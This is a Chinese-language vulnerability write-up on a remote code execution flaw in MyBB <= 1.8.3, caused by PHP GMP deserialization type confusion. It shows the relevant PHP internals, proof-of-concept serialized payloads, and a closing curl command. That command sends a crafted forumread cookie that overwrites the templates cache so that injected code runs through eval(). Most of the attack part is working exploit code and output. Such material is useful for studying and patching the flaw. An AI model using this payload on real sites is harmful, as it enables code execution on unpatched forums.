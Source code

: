 # MyBB <= 1.8.3 RCE

### 一、漏洞简介

在使用精心编制的对象的__wakeup()魔术方法进行GMP反序列化时发现了一个类型混淆漏洞，该漏洞可被滥用来更新分配给已创建对象的任何属性，进而触发严重的安全问题。

### 二、漏洞影响

PHP 5.6 < 5.6.30

MyBB<=1.8.3

### 三、复现过程

**漏洞分析**

gmp.c


```bash
static int gmp_unserialize(zval **object, zend_class_entry *ce, const unsigned char *buf, zend_uint buf_len, zend_unserialize_data *data TSRMLS_DC) /* {{{ */
{
    ...
    ALLOC_INIT_ZVAL(zv_ptr);
    if (!php_var_unserialize(&zv_ptr, &p, max, &unserialize_data TSRMLS_CC)
        || Z_TYPE_P(zv_ptr) != IS_ARRAY
    ) {
        zend_throw_exception(NULL, "Could not unserialize properties", 0 TSRMLS_CC);
        goto exit;
    }

    if (zend_hash_num_elements(Z_ARRVAL_P(zv_ptr)) != 0) {
        zend_hash_copy(
            zend_std_get_properties(*object TSRMLS_CC), Z_ARRVAL_P(zv_ptr),
            (copy_ctor_func_t) zval_add_ref, NULL, sizeof(zval *)
        );
    }
```

zend_object_handlers.c


```bash
ZEND_API HashTable *zend_std_get_properties(zval *object TSRMLS_DC) /* {{{ */
{
    zend_object *zobj;
    zobj = Z_OBJ_P(object);
    if (!zobj->properties) {
        rebuild_object_properties(zobj);
    }
    return zobj->properties;
}
```

攻击者可以将**object更改为整数类型或bool类型的ZVAL，然后攻击者将能够通过Z_OBJ_P访问存储在对象库中的任何对象。这意味着攻击者将能够通过zend_hash_copy()更新对象中的任何属性。从而引发了一系列安全问题。

下面这段代码可以验证这个漏洞


```php
<?php

class obj
{
    var $ryat;

    function __wakeup()
    {
        $this->ryat = 1;
    }
}

$obj = new stdClass;
$obj->aa = 1;
$obj->bb = 2;

$inner = 's:1:"1";a:3:{s:2:"aa";s:2:"hi";s:2:"bb";s:2:"hi";i:0;O:3:"obj":1:{s:4:"ryat";R:2;}}';
$exploit = 'a:1:{i:0;C:3:"GMP":'.strlen($inner).':{'.$inner.'}}';
$x = unserialize($exploit);
var_dump($obj);

?>
```

预期结果:


```bash
object(stdClass)#1 (2) {
  ["aa"]=>
  int(1)
  ["bb"]=>
  int(2)
}
```

实际结果:


```bash
object(stdClass)#1 (3) {
  ["aa"]=>
  string(2) "hi"
  ["bb"]=>
  string(2) "hi"
  [0]=>
  object(obj)#3 (1) {
    ["ryat"]=>
    &int(1)
  }
}
```

### 漏洞利用

在php 5.6<=5.6.11中，DateInterval的__wakeup()使用convert_to_long()句柄并重新分配其属性，因此攻击者可以通过GMP的gmp_cast_object()将GMP对象转换成任何整数类型的ZVAL:


```bash
static int gmp_cast_object(zval *readobj, zval *writeobj, int type TSRMLS_DC) /* {{{ */
{
    mpz_ptr gmpnum;
    switch (type) {
    ...
    case IS_LONG:
        gmpnum = GET_GMP_FROM_ZVAL(readobj);
        INIT_PZVAL(writeobj);
        ZVAL_LONG(writeobj, mpz_get_si(gmpnum));
        return SUCCESS;
```

漏洞利用代码


```php
<?php

var_dump(unserialize('a:2:{i:0;C:3:"GMP":17:{s:4:"1234";a:0:{}}i:1;O:12:"DateInterval":1:{s:1:"y";R:2;}}'));

?>
```

当然，也可以套用精心编制的__wakeup()


```php
<?php

function __wakeup()
{
    $this->ryat = (int) $this->ryat;
}

?>
```

### MyBB <= 1.8.3

index.php


```php
if(isset($mybb->cookies['mybb']['forumread']))
    {
        $forumsread = my_unserialize($mybb->cookies['mybb']['forumread']);
    }
```

MyBB<=1.8.3允许通过unserialize()反序列化cookie，因此攻击者能够更新$mybb或其他对象的属性，从而很容易导致安全问题，例如：XSS、SQL注入、RCE等
好消息是该漏洞已经在新版本得到了修复

### PoC

MyBB <= 1.8.3 RCE漏洞

index.php


```php
eval('$index = "'.$templates->get('index').'";');
```

MyBB在模板解析过程中始终使用eval()函数。

inc/class_templates.php


```php
class templates
{
    ...
    public $cache = array();
    ...
    function get($title, $eslashes=1, $htmlcomments=1)
    {
        global $db, $theme, $mybb;
        ...
        $template = $this->cache[$title];
        ...
        return $template;
    }
```


```php
$error_handler = new errorHandler();
...
$maintimer = new timer();
...
$mybb = new MyBB;
...
switch($config['database']['type'])
{
    case "sqlite":
        $db = new DB_SQLite;
        break;
    case "pgsql":
        $db = new DB_PgSQL;
        break;
    case "mysqli":
        $db = new DB_MySQLi;
        break;
    default:
        $db = new DB_MySQL;
}
...
$templates = new templates;
```

`$templates`对象在init.php中实例化，并且在此之前实例化了四个对象。这意味着`$templates`对象的句柄被设置为5并存储到对象存储中，因此我们可以访问`$templates`对象并通过在GMP反序列化期间将GMP对象转换为整型ZVAL(其值为5)来更新$cache属性。这也表明我们可以通过eval()函数注入php代码。

当MyBB<=1.8.3和PHP5.6<=5.6.11时，只需在命令行上使用curl即可触发RCE：


```bash
curl --cookie 'mybb[forumread]=a:1:{i:0%3bC:3:"GMP":106:{s:1:"5"%3ba:2:{s:5:"cache"%3ba:1:{s:5:"index"%3bs:14:"{${phpinfo()}}"%3b}i:0%3bO:12:"DateInterval":1:{s:1:"y"%3bR:2%3b}}}}' http://url/mybb/
```